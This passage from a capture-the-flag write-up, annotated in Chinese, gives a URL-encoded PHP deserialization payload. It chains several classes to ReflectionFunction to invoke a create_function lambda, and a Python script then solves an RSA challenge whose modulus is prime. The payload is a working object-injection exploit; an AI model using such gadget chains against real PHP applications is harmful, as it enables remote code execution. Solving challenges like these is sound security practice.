 ```php
echo urlencode(serialize($o));
#改O为C
#O%3A11%3A%22ArrayObject%22%3A3%3A%7Bi%3A0%3Bi%3A0%3Bi%3A1%3Ba%3A1%3A%7Bs%3A4%3A%22evil%22%3BO%3A4%3A%22Taki%22%3A2%3A%7Bs%3A6%3A%22musubi%22%3BO%3A7%3A%22Mitsuha%22%3A2%3A%7Bs%3A6%3A%22memory%22%3BN%3Bs%3A6%3A%22thread%22%3BO%3A12%3A%22KatawareDoki%22%3A3%3A%7Bs%3A4%3A%22soul%22%3Br%3A4%3Bs%3A13%3A%22kuchikamizake%22%3Bs%3A18%3A%22ReflectionFunction%22%3Bs%3A4%3A%22name%22%3Bs%3A9%3A%22%00lambda_1%22%3B%7D%7Ds%3A5%3A%22magic%22%3Bs%3A6%3A%22invoke%22%3B%7D%7Di%3A2%3Ba%3A0%3A%7B%7D%7D
```

![image-20250526205826489](images/image-20250526205826489.png)

值得注意的是这里每访问一次页面，`create_function`就会执行一次，也就是说`lambda`后面的数字是会变的，最好是重开一个容器

## Crypto

### basic

```python
from Crypto.Util.number import *

n = 150624321883406825203208223877379141248303098639178939246561016555984711088281599451642401036059677788491845392145185508483430243280649179231349888108649766320961095732400297052274003269230704890949682836396267905946735114062399402918261536249386889450952744142006299684134049634061774475077472062182860181893
e = 65537
c = 22100249806368901850308057097325161014161983862106732664802709096245890583327581696071722502983688651296445646479399181285406901089342035005663657920475988887735917901540796773387868189853248394801754486142362158369380296905537947192318600838652772655597241004568815762683630267295160272813021037399506007505

# n 是素数，phi(n) = n - 1
d = inverse(e, n - 1)
m = pow(c, d, n)
flag = long_to_bytes(m)
print(flag)
```
